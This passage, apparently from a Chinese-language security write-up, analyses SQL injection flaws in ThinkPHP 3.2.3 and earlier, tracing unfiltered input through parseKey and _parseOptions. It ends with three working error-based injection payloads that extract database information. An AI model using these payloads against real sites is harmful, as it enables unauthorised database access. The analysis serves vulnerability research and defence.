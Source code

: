 利用`$this->parseField()`方法进行解析，继续跟进  
  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401131938968.png)
  
这里的`$this->parseKey()`对传入的 payload 并没有进行过滤  
  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401131939109.png)
  
然后便回到`$this->parseField()`方法中，返回构建的 field 语句  
  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401131941304.png)
  
 最终回到`$this->parseSql()`方法中，返回最终需要执行的 sql 语句  
   
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401131942656.png)
  
最后得到了执行  
  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401131943511.png)
  
  
### 0x02 \_parseOptions未过滤$options导致 sql 注入  
#### 利用条件  
ThinkPHP <= 3.2.3  
#### 漏洞原理和分析  
`$options`查询条件可以不经过数据处理直接进入`_parseOptions`，再进入`Driver.class.php`的sql操作函数，和上面一样通过`buildSelectsql`方法或直接调用`delete`方法进行拼接 sql 语句，然后再进行执行  
漏洞 Demo  
```java  
public function SqlDemo()  
{  
    $id = I('id');  
    $res = M('user')->select($id);  
    $res = M('user')->find($id);  
}  
```  
poc  
  
`id[comment]=\*/where 1 and updatexml(1,concat(0x7e,user(),0x7e),1)/\*`  
  
`id[limit]=1,1+procdure+analyse(updatexml(1,concat(0x7e,user(),0x7e),1),1)--`  
  
`id[field]=* from user where 1 and updatexml(1,concat(0x7e,user(),0x7e),1) --+`  
  
具体构造出多少个`poc`，可以看`pasexxx`有多少个  
  
  